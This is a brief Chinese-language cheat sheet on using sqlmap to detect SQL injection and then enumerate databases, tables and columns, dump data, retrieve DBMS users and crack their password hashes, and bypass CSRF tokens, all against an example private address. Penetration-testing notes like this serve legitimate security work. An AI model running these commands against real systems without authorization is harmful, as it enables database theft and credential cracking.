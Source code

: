 ## sqlmap

[github](https://github.com/sqlmapproject/sqlmap)
[doc](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

### 起手式

使用默认行为检测 sql 注入，这也能判断这个点是否是注入点,默认情况下，sqlmap 测试它支持的所有类型/技术。

```bash
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" --batch
```

爆库， `--dbs` 会枚举出所以数据库

```bash
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" --dbs
```

### 查看数据

- 查看当前数据库

```bash
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" --current-db
```

- 查看数据库表

```bash
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" -D my_db --tables“
```

- 枚举数据库表列

```bash
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" -D my_db -T `This_key` --columns
```

- 查看列数据

```bash
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" -D my_db -T `This_key` -C `k0y` --dump
```

### 账号密码

检索正在从 Web 应用程序对后端 DBMS 有效执行查询的数据库管理系统用户

```bash
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" --current-user
```

列出并破解数据库管理系统用户密码哈希值

```bash
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" --passwords
```

### 绕过 CSRF 保护

现在有很多网站通过在表单中添加值为随机生成的 token 的隐藏字段来防止 CSRF 攻击，sqlmap 会自动识别出这种保护方式并绕过。但自动识别有可能失效，此时就要用到这两个参数。

- `–csrf-token`用于指定包含 token 的隐藏字段名，若这个字段名不是常见的防止 CSRF 攻击的字段名 sqlmap 可能不能自动识别出，需要手动指定。如 Django 中该字段名为“csrfmiddlewaretoken”，明显与 CSRF 攻击有关。
- `–csrf-url`用于从任意的 URL 中回收 token 值。若最初有漏洞的目标 URL 中没有包含 token 值而又要求在其他地址提取 token 值时该参数就很有用。

### 强制使用 SSL

指定 `–force-ssl`
